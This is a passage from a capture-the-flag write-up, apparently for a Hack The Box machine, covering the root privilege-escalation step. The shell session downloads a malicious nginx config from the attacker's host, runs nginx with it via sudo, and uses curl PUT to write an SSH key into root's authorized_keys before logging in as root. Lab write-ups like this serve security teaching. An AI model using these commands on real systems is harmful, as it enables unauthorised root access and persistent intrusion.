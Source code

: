 ```bash
activemq@broker:/dev/shm$ curl -X PUT localhost:1339/root/.ssh/authorized_keys -d 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPq5u+E+vdpz0gJimDNmx+Jg4Fi/ElQTu2xcx9nLgXIk m0j0@r1s1n'
<+E+vdpz0gJimDNmx+Jg4Fi/ElQTu2xcx9nLgXIk m0j0@r1s1n'
curl: (7) Failed to connect to localhost port 1339 after 0 ms: Connection refused
activemq@broker:/dev/shm$ rm -rf m0j0.conf
rm -rf m0j0.conf
activemq@broker:/dev/shm$ wget http://10.10.14.12:8000/m0j0.conf
wget http://10.10.14.12:8000/m0j0.conf
--2023-12-18 19:22:11--  http://10.10.14.12:8000/m0j0.conf
Connecting to 10.10.14.12:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 156 [application/octet-stream]
Saving to: ‘m0j0.conf’

m0j0.conf           100%[===================>]     156  --.-KB/s    in 0s      

2023-12-18 19:22:11 (10.4 MB/s) - ‘m0j0.conf’ saved [156/156]

activemq@broker:/dev/shm$ sudo /usr/sbin/nginx -c /dev/shm/m0j0.conf
sudo /usr/sbin/nginx -c /dev/shm/m0j0.conf
activemq@broker:/dev/shm$ curl -X PUT localhost:9003/root/.ssh/authorized_keys -d 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPq5u+E+vdpz0gJimDNmx+Jg4Fi/ElQTu2xcx9nLgXIk m0j0@r1s1n'
<+E+vdpz0gJimDNmx+Jg4Fi/ElQTu2xcx9nLgXIk m0j0@r1s1n'
curl: (7) Failed to connect to localhost port 9003 after 0 ms: Connection refused
activemq@broker:/dev/shm$ curl -X PUT localhost:9002/root/.ssh/authorized_keys -d 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPq5u+E+vdpz0gJimDNmx+Jg4Fi/ElQTu2xcx9nLgXIk m0j0@r1s1n'
<+E+vdpz0gJimDNmx+Jg4Fi/ElQTu2xcx9nLgXIk m0j0@r1s1n'
activemq@broker:/dev/shm$
```

Look above. Look at the errors I encountered as you can too. That was the clean-up and my file was wiped so I had to download quick again and try another time.  By this stage I have these command wrote on a text-editor for speed.

I try for root with SSH and it work (:

```bash
┌[m0j0☮r1s1n]-(~/HTB/writeups/broker)
└> ssh -i id_ed25519 root@10.10.11.243
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Dec 18 07:23:00 PM UTC 2023

  System load:           0.0
  Usage of /:            70.6% of 4.63GB
  Memory usage:          12%
  Swap usage:            0%
  Processes:             161
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.243
  IPv6 address for eth0: dead:beef::250:56ff:feb9:d805

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.
```